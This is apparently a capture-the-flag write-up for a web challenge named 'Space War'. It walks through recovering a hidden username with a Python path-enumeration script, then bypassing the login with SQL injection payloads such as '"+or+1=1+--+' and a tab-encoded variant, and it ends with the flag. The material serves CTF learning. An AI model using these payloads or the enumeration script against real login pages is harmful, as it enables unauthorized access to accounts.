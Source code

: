 # Space War
## Description
> I started war as i don't like EQUALity, i lost, they cut every LETTER of my name and sent them to different ROUTES. Wanna know my name in L33t???

Accessing the link provided, we came across a login page

![image](https://github.com/user-attachments/assets/8e0c6a2f-0450-4494-8436-c6a98e240a42)

When entering any combination of credentials, we get the following feedback

> Ummmm, I GUESS, you still don’t know my name.

By gathering the information from the description, and from this message, we can infer that it is necessary to guess the username, which is related in some way to the words EQUAL, LETTER and ROUTES.

With this, we can assume that there are routes that define the username, letter by letter (or you can find a route named K in a directory bruteforcing and infer from there).

![image](https://github.com/user-attachments/assets/5fe79b32-d68f-469d-aca3-939aad52d479)

This induces us to continue to discover letter by letter of the username. To do this, you can create a script in a language of your choice, or use Burp Intruder. The Intruder wordlist should contain letters (a-zA-Z) and numbers (0–9), as the username is in leet.

```python
import requests
import string

o = ""

while True:
    for s in string.printable:
        r = requests.get(f"http://34.132.132.69:8005/{o}{s}")
        if "wrong path" not in r.text:
            o += s
            print(o)
            break

```
After finishing this guessing process, we discovered the name Kur0s4k1

![image](https://github.com/user-attachments/assets/da183030-2a3c-481d-ba39-a1518df859a9)

We return to the login page and try any password

> Invalid credentials.

And we discovered the existence of a SQL Injection in the password field.

```
POST /login HTTP/1.1
Host: 34.132.132.69:8005
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://34.132.132.69:8005
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7
Referer: http://34.132.132.69:8005/
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt; q=0.9,en-US; q=0.8,en; q=0.7
Cookie: session=.eJztkLFqw0AMhl9FuSWL8QNkbKGQoWPpUEI5--RY5CwZSRdqQt6951Bo6dCxSzsJoV_6v1-X0I_RX0cyF13C7uUSemFH9rALdzn2p1xHmOBZNG1CE4qh1tHTWq7NV_Ue-sgsDtGs7sAiBYihV4xOfARRmFUmuTUfa-DVHfBtzkJuYNgXJV_gXDKjxo4yOaG1jwvMRWcxBDJwWS-dKSGMmOehZIicQNFmYaMuVxUPolM1Fm4_qe-rWyf-DfyPxOyi4c_JthOYqC4N7CFR4q1D4YRqvvquGVp4QMwwKOKKF-0EE1aqxccad_P_6Rv4EZ0cp99_9uH6DvoJXNM.ZX3H3w.v_3pIJFrUC7Mn4fZ6utF2pIzhMg
Connection: close

username=Kur0s4k1&password="+or+1=1+--+
```

## Payload 
- ```"+or+1=1+--+```
- ```%09OR%091=1;--%09-``` (%09 is [TAB]) <br>

That way we can bypass the login and get the flag. There are many ways in which we can bypass spaces, replace them with ```/**/``` or ```[TAB]```(what I did here) etc.

## Flag
```flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}```


